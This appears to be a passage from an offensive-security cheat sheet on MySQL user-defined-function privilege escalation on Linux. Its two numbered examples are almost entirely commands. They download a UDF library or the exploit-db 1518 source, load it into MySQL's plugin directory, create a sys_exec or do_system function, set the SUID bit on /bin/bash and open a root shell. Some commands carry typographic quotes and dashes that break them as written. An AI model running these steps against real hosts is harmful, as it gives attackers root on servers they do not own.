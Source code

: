 Example 2 (Local via SUID)

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim

```ps1
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod +s /bin/bash');
mysql> exit
Wait a while
ls -la /bin/bash                         // Verify that the SUID bit is set 
/bin/bash -p
id && whoami
```
Example 3 (Explioting MySQL 4.x/5.0 (Linux))

UDF Link: https://www.exploit-db.com/exploits/1518

Victim
```ps1
wget -O priv.c https://www.exploit-db.com/download/1518
gcc –g –shared –Wl,–soname,priv.so –o priv.so priv.c –lc
chmod 777 priv.so
mv priv.so /tmp/
mysql -u root -p 

mysql> create table priv(line blob);
mysql> insert into priv values(load_file(‘/tmp/priv.so’));
mysql> select * from priv into dumpfile ‘/usr/lib/mysql/plugin/priv.so’;
mysql> create function do_system returns integer soname ‘priv.so’;
mysql> select do_system(‘chmod +s /bin/bash’);
mysql>!sh
/bin/bash -p
id && whoami

// priv.c can be called anything
// The "priv" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```



